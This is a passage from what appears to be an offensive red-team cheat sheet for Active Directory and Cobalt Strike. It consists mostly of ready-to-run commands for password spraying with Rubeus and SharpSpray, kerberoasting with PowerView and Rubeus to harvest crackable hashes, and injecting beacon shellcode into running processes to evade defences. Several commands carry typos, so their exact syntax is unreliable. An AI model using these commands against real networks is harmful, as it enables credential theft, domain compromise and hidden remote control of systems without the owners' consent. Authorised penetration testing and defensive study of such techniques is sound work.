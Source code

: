 Rubeus brute-force password spraying a single password or using a password file
```
execute-assembbly C:\Rubeus.exe brute /password:Password123! /domain:lab.com /noticket /outfile:passes-sprayed.txt [/passwords:PASSWORDS_FILE>] [/user:USER | /users:USERS_FILE] [/creduser:DOMAIN\\USER & /credpassword:PASSWORD] [/dc:DOMAIN_CONTROLLER]  [/verbose] [/nowrap]
```
[SharpSpray](https://github.com/jnqpblc/SharpSpray) - .NET port of PowerSpray.ps1
```
# By default it will automatically generate a user list from the domain using LDAP
# Sleeps 30 minutes between each password cycle, delays 300 milliseconds between each password guess attempt
execute-assembly C:\SharpSpray.exe --Passwords Summer2021,Fall2021 --Sleep 30 --Delay 300
```

### Kerberoasting
PowerView kerberoasting (Outdated and still reliant on PowerShell)
```
# Get users with SPN set
powershell Get-DomainUesr -SPN

# Kerberoast all users
powershell Invoke-Kerberoast - OutputFormat hashcat | fl

# Kerberoast specific user
powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
# Kerberoast all users
execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com

# Kerberoast specific user
execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

------------------------------------------------------------------------------------------
## Defense Evasion

### Shellcode injection
Several methods here within Cobalt Strike or using BOFs
```
# Spawn a beacon into an existing process
inject <PID> <x86|x64> HTTPSLISTENER

# Inject raw shellcode into an existing process
# Create shellcode: Cobbalt Strike --> Attacks --> Packages --> Windows Executable (S) --> Output = Raw --> Creates "beacon.bin" file
shinect <PID> <x86|x64> C:\beacon.bin

# Shellcode injection using Windows syscalls with [BOF script](https://github.com/ajpc500/BOFs)
syscalls_shinject <PIX> C:\beacon.bin
```
